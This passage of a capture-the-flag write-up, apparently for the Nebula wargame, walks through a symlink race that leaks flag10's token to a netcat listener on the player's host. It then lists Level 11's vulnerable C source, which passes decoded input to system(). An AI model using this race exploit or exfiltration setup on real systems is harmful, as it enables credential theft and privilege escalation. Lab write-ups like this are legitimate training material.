     ```bash
    #!/bin/bash
    while true
    do
        ln -sf /home/flag10/token /tmp/swaptok
        ln -sf /tmp/ncTest /tmp/swaptok
    done
    ```

4. We run this file with ``./loop.sh &`, where the & is needed to put the job in the background so that we can run something else in the meantime. In our host we start netcat again, this time using the -k flag so that it will keep listening: `nc -lk 18211`.
5. The last step is to run flag10 multiple times passing our symlink to it, until we manage to trigger the race condition. To do this, we use an inline loop (using a script form tmp folder would not work because we don't have read access): `while true; do ./flag10 /tmp/swaptok [IP of the host]; done;`
6. On the host machine we see that netcat is receiving a lot of things, and among them there is a weird-looking string. This string is generated when we manage to trigger the race condition properly, and as in one of the previous challenges, we can use it as password to `su` to the flag10 account, and from there execute `getflag`

### [Level 11]
A binary processes standard input and executes a shell command.

```c
//Return a random, non predictable file, and return the file descriptor for it.
int getrand(char **path){
    char *tmp;
    int pid;
    int fd;

    srandom(time(NULL));

    tmp = getenv("TEMP");
    pid = getpid();
    
    asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
        'A' + (random() % 26), '0' + (random() % 10),
        'a' + (random() % 26), 'A' + (random() % 26),
        '0' + (random() % 10), 'a' + (random() % 26));

    fd = open(*path, O_CREAT|O_RDWR, 0600);
    unlink(*path);
    return fd;
}

void process(char *buffer, int length){
    unsigned int key;
    int i;

    key = length & 0xff;

    for(i = 0; i < length; i++) {
        buffer[i] ^= key;
        key -= buffer[i];
    }

    system(buffer);
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
```